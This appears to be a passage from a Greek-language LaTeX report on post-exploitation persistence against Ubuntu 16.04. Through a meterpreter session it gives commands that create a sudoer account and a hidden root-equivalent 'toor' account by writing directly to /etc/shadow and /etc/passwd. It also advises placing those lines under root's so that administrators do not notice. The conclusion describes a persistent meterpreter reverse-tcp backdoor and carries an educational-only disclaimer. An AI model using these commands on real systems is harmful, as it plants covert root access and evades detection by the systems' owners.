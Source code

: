 \documentclass[12pt]{report}
\begin{document}
\paragraph{Δημιουργία \textlatin{superuser} ή Απλου Χρήστη}
Με αυτή τη διαδικασία δημιουργούμε διάφορους χρήστες ανάλογα με τις επιθυμίες μας, οι οποίοι μπορούν να έχουν πρόσβαση μέσω \textlatin{ssh, rlogin} στο μηχάνημα στόχο. Στο παράδειγμα δημιουργούμε τρεις χρήστες: έναν απλό, έναν \textlatin{sudoer} και ένα αντίγραφο του \textlatin {root (toor)}. Ο χρήστης \textlatin{toor} συχνά δεν εγείρει υποψίες γιατί υπάρχει ενσωματωμένος σε πολλά \textlatin{BSD-Like} συστήματα. Ο απλός χρήστης γίνεται \textlatin{root} εάν τρέξει το \textlatin{suid} εκτελέσιμο από την προηγούμενη παράγραφο.
\begin{scriptsize}
\begin{verbatim}
meterpreter > useradd -m -U -G sudo user1
meterpreter > passwd user1
meterpreter > useradd -m -U user2
meterpreter > passwd user2
meterpreter > echo 'toor:*:17153:0:99999:7:::' >> /etc/shadow
meterpreter > echo 'toor:x:0:0:toor:/toor:/bin/sh' >> /etc/passwd
meterpreter > passwd toor
\end{verbatim}
\end{scriptsize}
Μπορούμε να αλλάξουμε τη σειρά στις γραμμές των \textlatin{/etc/shadow, /etc/passwd}, ώστε αυτές που αφορούν στο χρήστη \textlatin{toor} να είναι ακριβώς κάτω από του \textlatin{root}, ώστε να μην εγείρουμε υποψίες.

\chapter{Συμπεράσματα}
Στο παρόν, περιγράφηκε η διαδικασία αρχικής πρόσβασης και διατήρησης αυτής, μέσω μιας μόνιμης \textlatin{meterpreter reverse tcp backdoor} σε μια βασική εγκατάσταση ΛΣ \textlatin{Ubuntu Linux 16.04}. Δόθηκαν αναλυτικά οι εντολές και τα βήματα για την επίτευξη του παραπάνω σκοπού. Τονίζεται οτι όλες οι παραπάνω πληροφορίες παρέχονται μόνο για εκπαιδευτικούς σκοπούς και σε καμία περίπτωση δεν έχουν σκοπό να προάγουν έκνομες ενέργειες.
\end{document}
